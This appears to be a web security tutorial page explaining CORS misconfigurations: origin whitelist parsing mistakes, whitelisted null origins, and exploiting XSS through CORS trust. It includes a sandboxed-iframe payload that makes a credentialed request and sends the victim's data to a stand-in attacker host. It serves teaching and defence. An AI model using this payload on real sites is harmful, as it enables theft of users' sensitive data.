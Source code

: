 ### Errors parsing Origin headers  
  
Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted. For example, the application receives a normal request like:   
`GET /data HTTP/1.1 Host: normal-website.com ... Origin: https://innocent-website.com`  
The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:   
`HTTP/1.1 200 OK ... Access-Control-Allow-Origin: https://innocent-website.com`  
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.   
For example, suppose an application grants access to all domains ending in:   
`normal-website.com`  
An attacker might be able to gain access by registering the domain:   
`hackersnormal-website.com`  
Alternatively, suppose an application grants access to all domains beginning with   
`normal-website.com`  
An attacker might be able to gain access using the domain:   
`normal-website.com.evil-user.net`

### Whitelisted null origin value  
  
The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:   
  
1. Cross-origin redirects. 
2. Requests from serialized data. 
3. Request using the `file:` protocol. 
4. Sandboxed cross-origin requests.   
Some applications might whitelist the `null` origin to support local development of the application. For example, suppose an application receives the following cross-origin request:   
`GET /sensitive-victim-data Host: vulnerable-website.com Origin: null`  
And the server responds with:   
`HTTP/1.1 200 OK Access-Control-Allow-Origin: null Access-Control-Allow-Credentials: true`  
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:   
`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='malicious-website.com/log?key='+this.responseText; }; </script>"></iframe>`  
LAB  
APPRENTICE [CORS vulnerability with trusted null origin](/web-security/cors/lab-null-origin-whitelisted-attack)  
  
### Exploiting XSS via CORS trust relationships  
  
Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.   
Given the following request:   
`GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...`  
If the server responds with:   
`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true`  
Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:   
`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`
